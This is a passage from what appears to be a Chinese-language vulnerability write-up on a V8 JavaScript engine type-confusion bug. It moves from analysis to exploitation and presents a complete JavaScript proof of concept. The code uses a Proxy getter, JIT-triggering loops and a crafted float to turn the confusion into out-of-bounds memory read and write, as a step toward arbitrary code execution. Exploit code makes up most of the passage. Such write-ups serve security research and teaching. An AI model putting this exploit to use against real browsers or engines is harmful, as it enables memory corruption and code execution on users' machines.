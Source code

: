 # 漏洞利用

漏洞分析的部分已经完了，接下来的漏洞利用就比较常规了，就是要想办法把类型混淆转化为任意代码执行，我们一步一步来改造`poc`。

## 从类型混淆到越界读写

之前我们是把`16`字节的参数当作`8`字节内存来操作，如果反过来将`8`字节的参数当作`16`字节的内存来操作。假设参数有三个，我们的读范围就可以从`24`字节变为`48`字节，自然就造成了越界读（如果把`pop`换成`push`就是越界写）。下面是全新版本并且无需使用运行时函数（调试的时候还是可以开一下的）的`poc`：

```javascript
// 从类型混淆到越界读写

let vuln_array = [,,,,,, 6.1, 7.1, 8.1];	// 创建时的类型是HOLEY_DOUBLE_ELEMENTS
%DebugPrint(vuln_array);
%SystemBreak();
vuln_array.pop();
vuln_array.pop();
vuln_array.pop();

function empty() {}
function f(p) {
	// 1.04325801067016648100135995212E-309 == 0x0001801800000000
	vuln_array.push(typeof(Reflect.construct(empty, arguments, p)) === Proxy ? 0.2 : 1.04325801067016648100135995212E-309*2);
	for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
	%DebugPrint(vuln_array);
	%SystemBreak();
}

let p = new Proxy(Object, {
	get: () => {
		vuln_array[0] = {};	// 修改之后的类型是HOLEY_ELEMENTS
		return Object.prototype;
	}
});

function main(p) {
	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT
	f(p);
}

function confusion_to_oob() {
	for (let i=0; i<0xc00c; i++) {empty();}	// 触发JIT

	main(empty);
	main(empty);

	main(p);
}

confusion_to_oob();
```
